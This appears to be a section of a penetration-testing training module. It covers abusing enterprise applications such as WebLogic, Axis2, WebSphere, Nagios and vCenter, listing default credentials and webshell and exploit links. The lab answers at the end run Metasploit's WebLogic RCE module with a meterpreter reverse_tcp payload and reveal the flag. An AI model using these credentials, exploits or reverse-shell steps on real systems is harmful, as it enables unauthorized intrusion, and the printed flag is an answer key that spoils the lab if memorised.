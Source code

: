 # Other Notable Applications

Though this module focuses on nine specific applications, there are still many different ones that we may encounter in the wild. I have performed large penetration tests where I ended up with an over 500-page EyeWitness report to go through.

The module was designed to teach a methodology that can be applied to all other applications we may encounter. The list of applications we covered in this module covers the main functions and most of the objectives of the vast number of individual applications to increase the effectiveness of your internal and external assessments during your penetration tests.

We covered enumerating the network and creating a visual representation of the applications within a network to ensure maximum coverage. We also covered a variety of ways that we can attack common applications, from fingerprinting and discovery to abusing built-in functionality and known public exploits. The aim of the sections on osTicket and GitLab was not only to teach you how to enumerate and attack these specific applications but also to show how support desk ticketing systems and Git repository applications may yield fruit that can be useful elsewhere during an engagement.

A big part of penetration testing is adapting to the unknown. Some testers may run a few scans and become discouraged when they don't see anything directly exploitable. If we can dig through our scan data and filter out all of the noise, we will often find things that scanners miss, such as a Tomcat instance with weak or default credentials or a wide-open Git repository that gives us an SSH key or password that we can use elsewhere to gain access. Having a deep understanding of the necessary methodology and mindset will make you successful, no matter if the target network has WordPress and Tomcat or a custom support ticketing system and a network monitoring system such as Nagios. Ensure that you understand the various techniques taught for footprinting these applications and the curiosity to explore an unknown application. You will come across applications not listed in this module. Similar to what I did with the Nexus Repository OSS application in the introduction section, you can apply these principles to find issues like default credentials and built-in functionality leading to remote code execution.

***

### Honorable Mentions

That being said, here are a few other applications that we have come across during assessments and are worth looking out for:

| Application                                                                    | Abuse Info                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| ------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [Axis2](https://axis.apache.org/axis2/java/core/)                              | This can be abused similar to Tomcat. We will often actually see it sitting on top of a Tomcat installation. If we cannot get RCE via Tomcat, it is worth checking for weak/default admin credentials on Axis2. We can then upload a [webshell](https://github.com/tennc/webshell/tree/master/other/cat.aar) in the form of an AAR file (Axis2 service file). There is also a Metasploit [module](https://packetstormsecurity.com/files/96224/Axis2-Upload-Exec-via-REST.html) that can assist with this.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| [Websphere](https://en.wikipedia.org/wiki/IBM\_WebSphere\_Application\_Server) | Websphere has suffered from many different [vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor\_id-14/product\_id-576/cvssscoremin-9/cvssscoremax-/IBM-Websphere-Application-Server.html) over the years. Furthermore, if we can log in to the administrative console with default credentials such as `system:manager` we can deploy a WAR file (similar to Tomcat) and gain RCE via a web shell or reverse shell.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| [Elasticsearch](https://en.wikipedia.org/wiki/Elasticsearch)                   | Elasticsearch has had its fair share of vulnerabilities as well. Though old, we have seen [this](https://www.exploit-db.com/exploits/36337) before on forgotten Elasticsearch installs during an assessment for a large enterprise (and identified within 100s of pages of EyeWitness report output). Though not realistic, the Hack The Box machine [Haystack](https://youtube.com/watch?v=oGO9MEIz\_tI\&t=54) features Elasticsearch.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| [Zabbix](https://en.wikipedia.org/wiki/Zabbix)                                 | Zabbix is an open-source system and network monitoring solution that has had quite a few [vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor\_id-5667/product\_id-9588/Zabbix-Zabbix.html) discovered such as SQL injection, authentication bypass, stored XSS, LDAP password disclosure, and remote code execution. Zabbix also has built-in functionality that can be abused to gain remote code execution. The HTB box [Zipper](https://youtube.com/watch?v=RLvFwiDK\_F8\&t=250) showcases how to use the Zabbix API to gain RCE.                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| [Nagios](https://en.wikipedia.org/wiki/Nagios)                                 | Nagios is another system and network monitoring product. Nagios has had a wide variety of issues over the years, including remote code execution, root privilege escalation, SQL injection, code injection, and stored XSS. If you come across a Nagios instance, it is worth checking for the default credentials `nagiosadmin:PASSW0RD` and fingerprinting the version.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| [WebLogic](https://en.wikipedia.org/wiki/Oracle\_WebLogic\_Server)             | WebLogic is a Java EE application server. At the time of writing, it has 190 reported [CVEs](https://www.cvedetails.com/vulnerability-list/vendor\_id-93/product\_id-14534/Oracle-Weblogic-Server.html). There are many unauthenticated RCE exploits from 2007 up to 2021, many of which are Java Deserialization vulnerabilities.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| Wikis/Intranets                                                                | We may come across internal Wikis (such as MediaWiki), custom intranet pages, SharePoint, etc. These are worth assessing for known vulnerabilities but also searching if there is a document repository. We have run into many intranet pages (both custom and SharePoint) that had a search functionality which led to discovering valid credentials.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| [DotNetNuke](https://en.wikipedia.org/wiki/DNN\_\(software\))                  | DotNetNuke (DNN) is an open-source CMS written in C# that uses the .NET framework. It has had a few severe [issues](https://www.cvedetails.com/vulnerability-list/vendor\_id-2486/product\_id-4306/Dotnetnuke-Dotnetnuke.html) over time, such as authentication bypass, directory traversal, stored XSS, file upload bypass, and arbitrary file download.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| [vCenter](https://en.wikipedia.org/wiki/VCenter)                               | vCenter is often present in large organizations to manage multiple instances of ESXi. It is worth checking for weak credentials and vulnerabilities such as this [Apache Struts 2 RCE](https://blog.gdssecurity.com/labs/2017/4/13/vmware-vcenter-unauthenticated-rce-using-cve-2017-5638-apach.html) that scanners like Nessus do not pick up. This [unauthenticated OVA file upload](https://www.rapid7.com/db/modules/exploit/multi/http/vmware\_vcenter\_uploadova\_rce/) vulnerability was disclosed in early 2021, and a PoC for [CVE-2021-22005](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22005) was released during the development of this module. vCenter comes as both a Windows and a Linux appliance. If we get a shell on the Windows appliance, privilege escalation is relatively simple using JuicyPotato or similar. We have also seen vCenter already running as SYSTEM and even running as a domain admin! It can be a great foothold in the environment or be a single source of compromise. |

Once again, this is not an exhaustive list but just more examples of the many things we may come across in a corporate network. As shown here, often, a default password and built-in functionality are all we need.

**Questions**

Enumerate the target host and identify the running application. What application is running?

```bash
sudo nmap -sS -n -Pn -p- --min-rate 5000 10.129.201.102 -sV -sC
#7001/tcp  open  http          Oracle WebLogic admin httpd
gobuster dir -u http://10.129.201.102:7001/ -w /usr/share/dirb/wordlists/common.txt -t 100
#/console              (Status: 302) [Size: 267] [--> http://10.129.201.102:7001/console/]
#/management           (Status: 401) [Size: 1468]
#/weblogic             (Status: 302) [Size: 269] [--> http://10.129.201.102:7001/weblogic/]
```

Enumerate the application for vulnerabilities. Gain remote code execution and submit the contents of the flag.txt file on the administrator desktop.

```bash
#i use metasploit for this
msfconsole 
use multi/http/weblogic_admin_handle_rce
set rhosts
set lhost
set payload windows/x64/meterpreter/reverse_tcp
run
#got shells
shell
whoami
type C:\Users\Administrator\Desktop\flag.txt
w3b_l0gic_RCE!
```
